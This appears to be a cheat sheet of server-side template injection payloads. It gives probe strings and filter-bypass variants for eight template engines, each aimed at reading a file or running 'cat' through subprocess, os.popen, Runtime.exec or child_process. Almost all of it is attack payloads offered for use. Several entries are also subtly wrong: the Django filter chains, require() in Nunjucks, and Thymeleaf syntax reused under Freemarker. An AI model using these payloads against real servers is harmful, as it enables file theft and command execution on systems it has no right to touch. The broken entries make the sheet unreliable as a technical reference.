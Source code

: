 # Server-side template injection

Test Queries: Enter the commands that will cause the error and look at the specific messages to determine the ENGINE.

# Exploitation of SSTI to access /home/vova/secret by languages ​​and template systems

## Python (Jinja2)

```
{{ }}, {% %}, {{7*7}} = 49
{{ ''.__class__.__mro__[1].__subclasses__()[40]('/home/vova/secret').read() }}
```

ByPass:
```
{{ ''.__class__.__mro__[1].__subclasses__()[40]('/'.join(['home', 'vova', 'secret'])).read() }}
{{ ''[''].__class__.__mro__[1].__subclasses__()[40]('/home/vova/secret').read() }}
{{ config.from_pyfile('/home/vova/secret') }}
```

## Python (Tornado)

```
{{ }}, {% %}, {{7*7}} = 49
{{ open('/home/vova/secret').read() }}
```

ByPass:
```
{% set subprocess = __import__('subprocess') %}
{{ subprocess.check_output('cat /home/vova/secret', shell=True) }}

{{ os.environ['HOME'] + '/vova/secret' }}

{{ ''.__class__.__mro__[1].__subclasses__()[40]('/home/vova/secret').read() }}
```

## Python (Django)

```
{{ }}, {% %}, {{7*7}} = 49
{{ ''|add:''|add:''.subprocess.Popen("cat /home/vova/secret", shell=True, stdout=-1).communicate }}
```

ByPass:
```
{{ ''|add:''.os.popen("cat /home/vova/secret").read }}
{{ ''|add:''.os.getenv("HOME") + "/vova/secret" }}
{{ ''|add:''.__class__.__mro__[1].__subclasses__()[40]("/home/vova/secret").read() }}
```

## Ruby (ERB)

```
<%= %>, <%= 7 * 7 %> = 49
<%= File.read('/home/vova/secret') %>
```

ByPass:
```
<%= IO.readlines('/home/vova/secret') %>
<%= ENV["HOME"] %>/vova/secret
<%= Kernel.open('/home/vova/secret').read %>
```

## Java (Thymeleaf)

```
th:text, ${}, ${7*7} = 49
${new java.util.Scanner(new java.io.File("/home/vova/secret")).useDelimiter("\\A").next()}
```

ByPass:
```
${T(java.nio.file.Files).readAllBytes(T(java.nio.file.Paths).get('/home/vova/secret'))}
${new java.util.Scanner(new java.io.File('/home/vova/secret')).useDelimiter("\\A").next()}
${new java.io.BufferedReader(new java.io.FileReader('/home/vova/secret')).lines().toArray()}
```

## Java (Freemarker)

```
th:text, ${}, ${7*7} = 49
${T(java.nio.file.Files).readAllBytes(T(java.nio.file.Paths).get('/home/vova/secret'))?string}
```

ByPass:
```
${new java.util.Scanner(new java.io.File('/home/vova/secret')).useDelimiter("\\A").next()}
${new java.io.BufferedReader(new java.io.FileReader('/home/vova/secret')).lines().toArray()}
${T(java.lang.Runtime).getRuntime().exec('cat /home/vova/secret')}
```

## PHP (Smarty)

```
{ },{7*7} = 49
{file_get_contents('/home/vova/secret')}
```

ByPass:
```
{readfile('/home/vova/secret')}

{assign var="file" value=fopen('/home/vova/secret', 'r')}
{while !feof($file)}{fgets($file)}{/while}

{getenv("HOME")}/vova/secret
```

## Node.js (Handlebars, Nunjucks)

```
{{ }}, {{7*7}} = 49 //Handlebars
{% %}, {% 7*7 %} = 49 //Nunjucks

{% set fs = require('fs') %}
{{ fs.readFileSync('/home/vova/secret', 'utf-8') }}
```

ByPass:
```
{% set fs = require('fs') %}
{{ fs.readFileSync('/home/vova/secret', 'utf-8') }}

{% set cp = require('child_process') %}
{{ cp.execSync('cat /home/vova/secret') }}

{% set fs = require('fs') %}
{{ fs.readFileSync(String.fromCharCode(47, 104, 111, 109, 101, 47, 118, 111, 118, 97, 47, 115, 101, 99, 114, 101, 116), 'utf-8') }}

```
